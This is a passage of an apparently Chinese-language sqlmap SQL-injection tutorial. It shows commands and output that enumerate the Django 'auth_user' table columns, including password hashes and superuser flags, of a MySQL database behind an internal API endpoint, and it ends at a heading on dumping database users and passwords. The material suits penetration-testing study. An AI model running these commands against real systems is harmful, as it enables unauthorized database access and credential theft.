 	| django_content_type                   |
	| django_migrations                     |
	...
	...
	| supervision_apismodel                 |
	+---------------------------------------+
	
	[14:17:31] [INFO] fetched data logged to text files under '/Users/didi/.sqlmap/output/172.20.201.203'
	

### 2.5 查询表的数据项 --columns

	python sqlmap.py -u http://172.20.201.203:9000/apis/dashboard/typetopcount\?method\=POST\&topCount\=3 -D 'itapidb' -T 'auth_user' --columns

	[14:19:45] [INFO] the back-end DBMS is MySQL
	back-end DBMS: MySQL >= 5.0
	[14:19:45] [INFO] fetching columns for table 'auth_user' in database 'itapidb'
	Database: itapidb
	Table: auth_user
	[11 columns]
	+--------------+--------------+
	| Column       | Type         |
	+--------------+--------------+
	| date_joined  | datetime(6)  |
	| email        | varchar(254) |
	| first_name   | varchar(30)  |
	| id           | int(11)      |
	| is_active    | tinyint(1)   |
	| is_staff     | tinyint(1)   |
	| is_superuser | tinyint(1)   |
	| last_login   | datetime(6)  |
	| last_name    | varchar(150) |
	| password     | varchar(128) |
	| username     | varchar(150) |
	+--------------+--------------+
	
	[14:19:45] [INFO] fetched data logged to text files under '/Users/didi/.sqlmap/output/172.20.201.203'
	

### 2.6 查询数据库用户与密码 --users --passwords
